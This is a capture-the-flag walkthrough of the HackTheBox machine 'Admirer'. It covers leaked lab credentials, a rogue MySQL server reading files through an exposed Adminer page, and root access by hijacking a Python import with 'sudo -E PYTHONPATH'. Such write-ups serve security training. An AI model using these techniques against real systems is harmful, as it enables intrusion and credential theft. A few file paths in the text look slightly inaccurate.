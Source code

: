 ```yaml
---
layout: page
title:  "ADMIRER"
permalink: /admirer/
comments: true
---
```

[Or not, back to HOME!](/)<br>
<br>
<br>
<br>
<br>
# ADMIRER
{: .fw-300 .lh-0 }
#### SUMMARY
{: .fs-6 .fw-300 .lh-0 }
<!-- excerpt-start -->
A python script, which imports module without explicitly setting the search path, can be called by a command. Such command has tag SETENV enabled and can be run as superuser, if by user waldo.<br>
<br>
Waldo uses the same credential for logging into the box and configuring website.<br>
<br>
Despite the MySQL server on the box only listens to local clients, one local client called Adminer uses a web page as interface, and such web page is for some reason available to everyone.<br>
<!-- excerpt-end -->
<br>
<br>
<br>
<br>
#### REFERENCE
{: .fs-6 .fw-300 .lh-0 }
[Rogue-MySql-Server](https://github.com/allyshka/Rogue-MySql-Server)<br>
<br>
<br>
<br>
<br>
#### WALKTHROUGH
{: .fs-6 .fw-300 .lh-0 }
[Skip to foothold!](/admirer/#foothold)<br>
[Skip to root!](/admirer/#root)<br>
<br>
<br>
Surface check.<br>
`nmap -sV -sC admirer.htb -oA tcp_t1k -v; searchsploit --nmap tcp_t1k.xml -v`<br>
<details close markdown="block">
<summary>
Edit searchsploit to make option nmap somewhat usable. Hope for minor typo fix but end up everywhere. Manual search from now on.
</summary>
Check out how xml is parsed in function `nmapxml()`.<br>
```bash
xmllint --xpath '//address/@addr|//service/@name|//service/@product|//service/@version' "${FILE}" \
    | sed -e $'s/addr=/\\\n[IP] /g;   s/name=/\\\n[NAME] /g;   s/product=/\\\n[PRODUCT] /g;s/" version="/\\\n[VERSION] /g;   s/"//g' \
```
`addr`, `name`, `product`, `version` are all xml attributes that need to be picked up by `sed` expression string, yet only `s/" version="/\\\n[VERSION] /g;` has this weird quoted space situation going on. Space removed.<br>
```
[i] searchsploit openssh 7 4p1 debian 10 deb9u7
```
It's not `openssh 7.4p1 debian 10+deb9u7`?<br>
Check out function `searchsploitout()`, which is where those formatted version strings go.<br>
```bash
## Try and remove terms that could confuse searches
software=$( echo "${software}" | sed -e 's/[^a-zA-Z0-9]/ /g' )
```
Non-alphanumeric characters are swapped with spaces, to not "confuse searches". Manual search term `openssh 7.4p1`, the search does not seems to be confused tho.<br>
```
------------------------------------------------------------------------------------------------------- -------------------------
 Exploit Title                                                                                         |  Path
------------------------------------------------------------------------------------------------------- -------------------------
OpenSSH 2.3 < 7.7 - Username Enumeration                                                               | linux/remote/45233.py
OpenSSH 2.3 < 7.7 - Username Enumeration (PoC)                                                         | linux/remote/45210.py
OpenSSH < 7.4 - 'UsePrivilegeSeparation Disabled' Forwarded Unix Domain Sockets Privilege Escalation   | linux/local/40962.txt
OpenSSH < 7.4 - agent Protocol Arbitrary Library Loading                                               | linux/remote/40963.txt
OpenSSH < 7.7 - User Enumeration (2)                                                                   | linux/remote/45939.py
------------------------------------------------------------------------------------------------------- -------------------------
```
Line commented out.<br>
```
[-] Skipping output: openssh 7.4p1   (Too many results, 100+. You'll need to force a search: searchsploit openssh 7.4p1
```
8, as in the block before, has turned into "Too many results, 100+".<br>
Locate such string, and read code above.<br>
```bash
arg="-t"   ## Title search by default!
```
Manual search term `openssh 7.4p1` but this time with `-t`.<br>
```bash
searchsploit -t 'openssh 7.4p1' | wc -l
226
```
Maybe it is the non-alphanumeric character dot that "confuse searches".<br>
```bash
searchsploit -t 'openssh 7 4p1' | wc -l
472
```
Void, void that arg!<br>
Then the auto-search finally behaves like a manual one: `openssh 7.4p1` is tried, then `openssh 7.4p1 debian` and `openssh 7.4p1 debian 10+deb9u7` and.<br>
```
[-] Skipping term: apachehttpd2.4.25
```
</details>
Per nmap, ftp is open on port 21, ssh is open on port 22, and http is open on port 80 with `robots.txt` containing one disallowed entry `/admin-dir`.<br>
<br>
<br>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum):^C
```
Local username is somehow prompted. Maybe if an ftp cred is obtained later on, use it on ssh or su. Anyways, need cred so leave it for now.<br>
<br>
<br>
The blog is made up of pictures and a feedback box with html comment "Still under development... This does not send anything yet, but it looks nice!".<br>
<details close markdown="block">
<summary>
Screenshot of the blog.
</summary>
![](/assets/images/admirer/blog.png)
[Seriously, listen to album The Third Chimpanzee. Thank the creators later.]<br>
![](/assets/images/admirer/feedback.png)
[Dead buttons.]<br>
</details>
`gobuster` under the forbidden `/admin-dir`: `contacts.txt` and `credentials.txt`.<br>
[There actually is a comment in `robots.txt`: "This folder contains personal contacts and creds, so no one -not even robots- should see it - waldo"; with such info one could grep `contact` and `cred` in wordlists and significantly reduce bruteforce attempts.]<br>
<details close markdown="block">
<summary>
Content of two files.
</summary>
```
##########
# admins #
##########
# Penny
Email: p.wise@admirer.htb

##############
# developers #
##############
# Rajesh
Email: r.nayyar@admirer.htb
# Amy
Email: a.bialik@admirer.htb
# Leonard
Email: l.galecki@admirer.htb

#############
# designers #
#############
# Howard
Email: h.helberg@admirer.htb
# Bernadette
Email: b.rauch@admirer.htb

[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```
Full names except `w.cooper`, job titles, three creds, and that there could be a WordPress and an "internal" mail service. [No idea how "internal" this mailing stuff is but, something that is supposed to be internal is totally out there, as we'll see later.]<br>
</details>
<br>
<br>  
Fail to ssh in as `ftpuser`.<br>  
<details close markdown="block">
<summary>
Message returned.
</summary>
```
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Connection to admirer.htb closed.
```
Cred should be right, as otherwise the message will be "Permission denied, please try again.", but the connection is closed right after above message being sent.<br>
Send command via ssh does not stop the connection from closing, does not even stall it a bit.<br>
Check out manual of this `vsFTPd 3.0.3`. This `ftpuser` seems to be a "virtual user": "does not exist in /etc/shadow file" i.e. it's only for this ftp system. Still no idea why the above message is sent but.<br>
</details>
```
ftp admirer.htb
Connected to admirer.htb.
220 (vsFTPd 3.0.3)
Name (admirer.htb:scum): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
The file share seems to be the source of the website. [Information overload all of a sudden.]<br>
[It's intended that after some digging, the comment in `utility-scripts/db_admin.php`, which is "TODO: Finish implementing this or find a better open source alternative", would remind you field people of a popular application Adminer, so you'd try `adminer.php` under this `utility-scripts/` and voila. Me without experiences just cry for help a lot then voila. Anyways.]<br>
<br>
<br>
<details close markdown="block">
<summary>
Screenshot of the interface offered by Adminer.
</summary>
![](/assets/images/admirer/adminer.png)
</details>
Checking out the database of the blog, using cred in `index.php` file from the ftp share, to be honest, is not even attractive here, as the blog only contains pictures and texts, shown in `dump.sql` from the ftp share. [Can it be that after the database is dumped, it's used for other purposes, which will lead us into the box? Ehh.]<br>
`searchsploit adminer 4.6.2`: no results.<br>
[Hit wall, and don't want to go mix-up-creds-and-try-each-combo-every-frigging-where route. Sure sense googling with version number would provide a quick way out but. Decide to first reason a bit about it myself. As I really don't know shits, and database applications they only aim for storing stuff (and give them back, always give them back), which should be the simplest application to understand.]<br>
<br>
<br>
Start of skiddie wild guess. [You have been warned, and corrections welcome.]<br>
Database applications store and give back stuff, that is, write and then read file in the file system, basically a fancy `vi` and a fancy `cat`. They also provide a way to search through, that is, give back only part of the stuff that has been stored, basically add a fancy `awk` and a fancy `grep`. Maybe that's the selling point of a database over a lame flat file: whatever required will be found out and returned, based on how customers would like to ask for stuff a query language is invented, and then this process of selecting what's asked is optimized towards speed, maybe stuff that's asked for  together a lot simply get fancy `vi`ed together, maybe fancy `grep` would go hoppity hop across lines following some rule instead of going through them one after another.<br>
A database is just a fancy file. Well maybe a fancy file is achieved by one lame file, or many lame files, or maybe fancy files and lame files match in some weird ass way that is good for speed. Still, databases are just fancy files, and a database application simply do fancy `vi` `cat` `awk` `grep` on lame files to give you this delusion of fancy files out of nowhere.<br>
Sanity check. Does the above wild guess match the user experience that I have had?<br>
I start with typing in terminal, say, `mysql -u` and yeee forgot to guess about authentications.<br>
<br>
<br>
Username and password make sense here, afterall files, even the fancy ones, need access control unless this world does not have secrets, well it very much has secrets so. To achieve the decision of who can access a fancy file, well a concept of who need to exist in the first place like duhh, and a username and a password is in this case what makes a who. Just like a lame file system, file permission stuff.<br>
So basically a database application is a fancy file system where you can log in and read write some fancy files! If I recall correctly, it even has its own cute root: king of this limited land and nothing across the border, which is kinda lame, afterall brilliant root, the one of the underlying blunt flat lame yet full-scale file system, can access everything, and the almighty database application from the cute root's point of view, is merely a normal user called `mysql` in the underlying world.<br>
<br>
<br>
At this point it becomes clear that, not having fancy cred only stops us from interacting with fancy file system and as I said earlier, they are ultimately just pictures and texts from the blog and we don't care about them anyways; not having fancy cred does *not* stop us from interacting with the underlying non-fancy file system, it is up to some other rules to stop us and they might just not.<br>
The returned stuff from the underlying file system, if any, has to be sent somewhere. It can't stay at any databases on target, as cred with write access there is needed but we don't have any, not to mention we have to read the same database later to get the info. Might as well set up our own database server, create a database x, and a cred saying "allowed to write database x here", and give this cred to database client `Adminer` so it can pass it to the database server on target. Once the server on target come with cred and successfully identified itself to the server on our box as someone who is "allowed to write database x here", we can then issue `LOAD DATA LOCAL` command to it, via `Adminer` of course as we simply lack of other interfaces, and that's it, data will be sent to database x, waiting to be read.<br>
To catch the returned stuff, our database server has to listen on traffic beyond those from localhost, which per my understanding, subject ourselves to the same attack that we're attempting on target. Pretty ironic. To avoid so, use a [pseudo server](https://github.com/allyshka/Rogue-MySql-Server).<br>
<details close markdown="block">
<summary>
Content of `index.php` returned.
</summary>
```
Enter filename to get [/var/www/html/index.php] > 
[.] Waiting for connection on 0.0.0.0:3306
[+] Connection from 10.10.10.187:36528 - greet... auth ok... some shit ok... want file... 
[+] /var/www/html/index.php from 10.10.10.187:36528:
[...]
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
[...]
```
</details>
<br>
<br>
Then it's pretty smooth: cred reuse, hats time (it is `sudo -l` that worked).<br>
```
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```
I used to assume all environment variables are automatically swapped by sudo, say `/home/bro` to `/home/another_bro`, now that I see `SETENV` appears at the place where `NOPASS` used to be, it seems that me the person who type the password, can also type in command line some syntax to set environment variables.<br>
<br>
<br>
<details close markdown="block">
<summary>
Content of `/opt/scripts/admin_tasks.sh`.
</summary>
```bash
#!/bin/bash

view_uptime()
{
    /usr/bin/uptime -p
}

view_users()
{
    /usr/bin/w
}

view_crontab()
{
    /usr/bin/crontab -l
}

backup_passwd()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/passwd to /var/backups/passwd.bak..."
        /bin/cp /etc/passwd /var/backups/passwd.bak
        /bin/chown root:root /var/backups/passwd.bak
        /bin/chmod 600 /var/backups/passwd.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_shadow()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Backing up /etc/shadow to /var/backups/shadow.bak..."
        /bin/cp /etc/shadow /var/backups/shadow.bak
        /bin/chown root:shadow /var/backups/shadow.bak
        /bin/chmod 600 /var/backups/shadow.bak
        echo "Done."
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_web()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running backup script in the background, it might take a while..."
        /opt/scripts/backup.py &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

backup_db()
{
    if [ "$EUID" -eq 0 ]
    then
        echo "Running mysqldump in the background, it may take a while..."
        #/usr/bin/mysqldump -u root admirerdb > /srv/ftp/dump.sql &
        /usr/bin/mysqldump -u root admirerdb > /var/backups/dump.sql &
    else
        echo "Insufficient privileges to perform the selected operation."
    fi
}

# Non-interactive way, to be used by the web interface
if [ $# -eq 1 ]
then
    option=$1
    case $option in
        1) view_uptime ;;
        2) view_users ;;
        3) view_crontab ;;
        4) backup_passwd ;;
        5) backup_shadow ;;
        6) backup_web ;;
        7) backup_db ;;

        *) echo "Unknown option." >&2
    esac

    exit 0
fi

# Interactive way, to be called from the command line
options=("View system uptime"
         "View logged in users"
         "View crontab"
         "Backup passwd file"
         "Backup shadow file"
         "Backup web data"
         "Backup DB"
         "Quit")
echo
echo "[[[ System Administration Menu ]]]"
PS3="Choose an option: "
COLUMNS=11
select opt in "${options[@]}"; do
    case $REPLY in
        1) view_uptime ; break ;;
        2) view_users ; break ;;
        3) view_crontab ; break ;;
        4) backup_passwd ; break ;;
        5) backup_shadow ; break ;;
        6) backup_web ; break ;;
        7) backup_db ; break ;;
        8) echo "Bye!" ; break ;;

        *) echo "Unknown option." >&2
    esac
done

exit 0
```
</details>
User input limited to an option number, then it's up to the script to call some binaries. Full path specified, can't write to those path, can't write to those binaries either. `/opt/scripts/backup.py`, which is behind option 6, stands out as not being part of a standard install.<br>
<details close markdown="block">
<summary>
Content of `/opt/scripts/backup.py`.
</summary>
```python
#!/usr/bin/python3
from shutil import make_archive
src = '/var/www/html/'
# old ftp directory, not used anymore
#dst = '/srv/ftp/html'
dst = '/var/backups/html'
ake_archive(dst, 'gztar', src)
```
</details>
`from shutil import make_archive`, so copy `/usr/bin/python2.7/shutil.py` to a directory of choice, locate function `make_archive` and sneak in payload of choice, then `sudo -E PYTHONPATH=<dir_of_choice> /opt/scripts/admin_tasks.sh 6`.<br>
<br>
<br>
That's it for the box.
